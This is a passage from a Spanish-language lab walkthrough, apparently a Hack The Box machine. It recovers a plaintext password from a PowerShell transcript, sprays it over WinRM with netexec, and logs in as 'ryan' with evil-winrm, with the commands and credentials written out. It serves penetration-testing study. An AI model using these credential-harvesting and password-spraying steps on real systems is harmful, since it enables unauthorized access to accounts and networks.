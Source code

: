 ![20240329173234.png](20240329173234.png)

El archivo que encontramos contiene un comando de autenticación a un servicio compartido, en el cual podemos obtener unas credenciales 

```python
.
.
.
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
.
.
.
```

Teniendo las credenciales, relazaremos `Brute Force` para encontrar algún usuario que sea valido con la contraseña que encontramos aunque en la linea de comandos el usuario `ryan` es con quien se usa la credencial

```python
❯ netexec winrm 10.10.10.169 -u users.txt  -p Serv3r4Admin4cc123!
```

![20240329173900.png](20240329173900.png)

Efectivamente el usuario `ryan` es el que puede hacer uso de la contraseña. 
## Usuario : ryan

Haciendo uso de las credenciales : `ryan : Serv3r4Admin4cc123!` podremos ingresar con la herramienta de `evil-winrm`

![20240329174132.png](20240329174132.png)
